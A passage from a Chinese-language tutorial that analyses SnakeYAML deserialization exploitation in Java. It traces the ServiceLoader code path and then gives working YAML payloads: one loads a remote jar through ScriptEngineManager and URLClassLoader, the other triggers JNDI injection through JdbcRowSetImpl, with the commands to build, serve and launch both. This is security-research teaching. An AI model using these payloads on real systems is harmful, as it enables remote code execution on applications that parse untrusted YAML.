                        return getServiceLoader(loader);
                    }
                });

            itr = sl.iterator();
        } catch (ServiceConfigurationError err) {
            // ......
        }

        try {
            while (itr.hasNext()) {
                try {
                    // 这块就有很大问题了，这个获取next()方法就会执行ScriptEngineFactory实现类的static代码块
                    // 如果在static代码块中写入恶意代码就会导致代码执行
                    // 这个next方法其实就是ServiceLoader中的next方法。
                    ScriptEngineFactory fact = itr.next();
                    engineSpis.add(fact);
                } catch (ServiceConfigurationError err) {
                    // ......
                }
            }
        } catch (ServiceConfigurationError err) {
           	//......
        }
    }
}
```



如果使用IDEA的debug可以很轻松的发现`itr`是一个ServiceLoader加载器，然后点进去看一下。

可以看到调用了`lookupIterator.next()`，然后再跟进去



然后就来到了内部类`LazyIterator`的next方法中，然后看一下next方法。



点进去nextService看一下。注意注意最终的触发点是`c.newInstance`，`Class.forName(cn, false, loader)`语句中因为指定了initalize`参数为false，所以加载类的时候不会执行静态代码块，而在创建对象时，则会初始化代码块，最终导致static代码块被执行。



那么如果我们能让SnakeYAML创建一个`ScriptEngineManager`类型的对象，而这个对象中按照URLClassLoader规范来初始化字段的值，最终就会触发该类中static中的代码块。

在github上有一个项目，可以直接用，这样就不需要咱们自己写这个代码了，其实代码是非常简单的，也没什么必要自己写。

[yaml-payload](https://github.com/artsploit/yaml-payload)

打开该项目中的`src\artsploit\AwesomeScriptEngineFactory.java`，然后把里边的payload代码改一下，比如我这里是想改成Windows下弹出计算器的命令，如下：



其实这就是一个实现了SPI机制的代码，可以再看一下META-INF中的内容，这里就包含了刚才的那个`AwesomeScriptEngineFactory`类。



保存后，使用`maven`把该项目打包成一个jar包，如下：

```bash
PS C:\Attack\yaml-payload> javac src/artsploit/AwesomeScriptEngineFactory.java
PS C:\Attack\yaml-payload> jar -cvf yaml-payload.jar -C src/ .
已添加清单
正在添加: artsploit/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: artsploit/AwesomeScriptEngineFactory.class(输入 = 1597) (输出 = 657)(压缩了 58%)
正在添加: artsploit/AwesomeScriptEngineFactory.java(输入 = 1541) (输出 = 381)(压缩了 75%)
正在忽略条目META-INF/
正在添加: META-INF/services/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: META-INF/services/javax.script.ScriptEngineFactory(输入 = 36) (输出 = 38)(压缩了 -5%)
```

然后在jar包目录中开启一个http服务，使得咱们可以从http中访问到这个jar包，使用python开一个临时的http服务，如下：

```
PS C:\Attack\yaml-payload> python -m http.server 8000
```



准备好这些之后，就可以编写exp了，如下：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8000/yaml-payload.jar"]
  ]]
]
```

这个方括号会被反序列化中的`ConstructSequence`解析，根据前边的反序列化代码的调试可以发现其实`[!!`就是可以指定对应的构造方法。然后调用我们想要调用的构造方法中，那如果参数本身也是一个数组，那么通过`[[!!`就能指定这种情况，最终效果如下：



### JdbcRowSetImpl

要注意，因为`JdbcRowSetImpl`实际上是在打JNDI注入，而JNDI中常用的ldap和rmi在高版本JDK中被禁用了，禁用关系如下：

我下边使用的是`JDK8u131`。



关于这个利用类的相关内容可以查看我的这篇文章：[JdbcRowSetImpl]()

这里就需要用到我们前边提到的：`创建一个对象后，会调用该对象字段的setter方法，比如Student这个类，会调用setAge方法。`

而`JdbcRowSetImpl`中如果能先构造好`dataSourceName`这个字段的值，然后在设置`autoCommit`的值，然后就能触发JNDI注入了。我这里直接使用JNDI注入的利用工具了：[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

在cmd中启动这个工具：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [ip]
```



然后构造一个JdbcRowSetImpl的YAML结构，如下：

```
!!com.sun.rowset.JdbcRowSetImpl {
    dataSourceName: "ldap://127.0.0.1:1389/n6vwxw",
    autoCommit: true
}
```

运行这份代码，即可执行`calc`代码。




